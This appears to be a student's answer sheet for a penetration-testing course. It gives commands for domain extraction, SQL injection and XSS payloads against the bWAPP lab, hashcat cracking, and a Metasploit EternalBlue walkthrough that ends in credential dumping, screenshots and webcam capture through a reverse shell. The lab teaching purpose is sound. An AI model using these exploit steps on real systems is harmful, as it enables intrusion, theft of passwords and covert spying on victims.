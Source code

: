 # C part questions(13 points)
Another parts [part A](part2.md) [part B](part3.md)
 ## Download index page of cisco.com, extract unique dns to which the page redirects you
 1. Download the index page 
 ```
 kali@kali:~# wget www.cisco.com
 ```
 2. Use this command to get domains
 ```
 kali@kali:~# grep "href=" index.html | cut -d "/" -f 3 | grep "\." | cut -d '"' -f 1 | sort -u
 ```
 3. Get ip addresses (maybe optional)
 ```
 kali@kali:~# for url in $(cat list.txt); do host $url; done
 ```
 
 ### Explanation
 1. Extract all the links with `grep "href=" index.html`
 2. Get mostly the links with "/" delimeter `cut -d "/" -f 3`
 3. Get only domains with `grep "\."`
 4. Clean up the above step with `cut -d '"' -f 1`
 5. Sort results with `sort -u`
 
 
 ## Show 3 working OWASP in bWAPP
 1. sqli_2.php
 ```
 localhost/bWAPP/sqli_2.php?movie=-1+union+select+1,login,password,secret,email,6,7+from+bWAPP.users+order%20by%204+desc+&action=go
 ```
 2. xss_stored_1.php
 ```
 <script>alert(1);</script>
 ```
 3. xss_stored_3.php
   1. Find `input` in code inspector and change **type** from `hidden` to `text`
   2. Enter any value to first `input` and enter your script to second `input`
   ```
   "><script>alert(1);</script>
   ```
 4. htmli_get.php
 ```
 <script>alert(document.cookie);</script>
 ```
 
 ## Hash: 1st indentify which hash, then break given hash
 ### How can I identify hash type
 ```
 hashid [hash]
 ```
 it will give answers like
 ```
kali@kali:~$ hashid 7815696ECBF1C96E6894B779456D330E
Analyzing '7815696ECBF1C96E6894B779456D330E'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM 
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x 

 ```
 - There is no concrete method for identifying a hash algorithm using the hash alone.

 - Some hashes have signatures which give a strong indication of which algorithm was used, such as “$1$” for md5crypt. Usually you can rely on this information; however, this method of identification is not bullet-proof! For example, consider an algorithm such as crypt(sha256(pass), “$1$”).

- For hashes which have no signature, it is virtually impossible to distinguish which algorithm was used. A string of 32 hex characters could be LM, NTLM, MD4, MD5, double MD5, triple md5, md5(sha512(pass)), so on and so forth. There is literally an infinite number of possibilities for what the algorithm may be!

- Tools which claim to be able to identify hashes simply use regular expressions to match the hash against common patterns. This method is extremely unreliable and often yields incorrect results. It is best to avoid using such tools.

- A much better way to identify the hash algorithm would be to understand the origin of the hashes (e.g. operating system, COTS application, web application, etc.) and make an educated guess at what the hash algorithm might be. Or better yet, use the source!

- For some example hashes see the [example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) wiki page.

### Breaking the hash
[hashcat wiki](https://hashcat.net/wiki/doku.php?id=hashcat)
```
hashcat -m [hash type] -a [attack mode] [hash itself] --force
```
- Example breaking md5 of `hello` with brute-force
```
hashcat -m 0 -a 3 5d41402abc4b2a76b9719d911017c592 --force
```
 ## msfconsole: setup everything and run exploit
 1. using `nmap` or `armitage` find ip of device
 2. find if there is smb service
 ```
 nmap -v [ip address] -Pn -A -T5
 ```
 3. run Metasploit
 ```
 sudo msfconsole
 ```
 4. Follow these commands
    1. `use exploit/windows/smb/ms17_010_eternalblue`
    2. `set rhosts [target ip]`
    3. `set payload windows/x64/meterpreter/reverse_tcp`
    4. `set lhost [own ip]`
    5. `set ForceExploit true`
    6. `exploit`
5. If exploit was **successful**
   1. **get passwords**
      1. `load kiwi`
      2. `getprivs`
      3. `creds all`
   2. **take screenshot**
      1. `screenshot`
   3. **capture webcam**
      1. `webcam_list` (check if there is any webcam)
      2. `webcam_snap` (take a photo from webcam)
      3. `webcam_stream` (to stream a video from a webcam)
